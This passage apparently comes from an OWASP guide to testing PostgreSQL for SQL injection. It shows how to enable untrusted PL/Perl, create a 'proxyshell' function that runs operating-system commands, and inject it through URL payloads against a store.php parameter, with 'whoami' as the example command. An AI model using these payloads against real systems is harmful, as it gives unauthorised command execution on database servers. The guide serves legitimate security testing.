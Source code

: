 -   Run an OS Command:

    :   */store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--*

##### plperl

Plperl allows us to code PostgreSQL functions in perl. Normally, it is installed as a trusted language in order to disable runtime execution of operations that interact with the underlying operating system, such as *open*. By doing so, it's impossible to gain OS-level access. To successfully inject a proxyshell like function, we need to install the untrusted version from the *postgres* user, to avoid the so-called application mask filtering of trusted/untrusted operations.

-   Check if PL/perl-untrusted has been enabled:

    :   ''SELECT count(\*) FROM pg\_language WHERE lanname='plperlu'

-   If not, assuming that sysadm has already installed the plperl package, try :

    :   *CREATE LANGUAGE plperlu*

-   If either of the above succeeded, create a proxy shell function:

    :   *CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,“\$\_\[0\] |”);return join("",<FD>);' LANGUAGE plperlu*

-   Have fun with:

    :   SELECT proxyshell(*os command*);

**Example:**

-   Create a proxy shell function:

    :   ''/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"\$\_\[0\] |");return join("",&lt;FD&gt;);' LANGUAGE plperlu;



-   Run an OS Command:

    :   */store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--*

References
----------

-   OWASP : “[Testing for SQL Injection](Testing_for_SQL_Injection_(OWASP-DV-005) "wikilink")”



-   OWASP : [SQL Injection Prevention Cheat Sheet](SQL_Injection_Prevention_Cheat_Sheet "wikilink")



-   PostgreSQL : “Official Documentation” - <http://www.postgresql.org/docs/>



-   Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injection tool - <http://sqlmap.sourceforge.net>

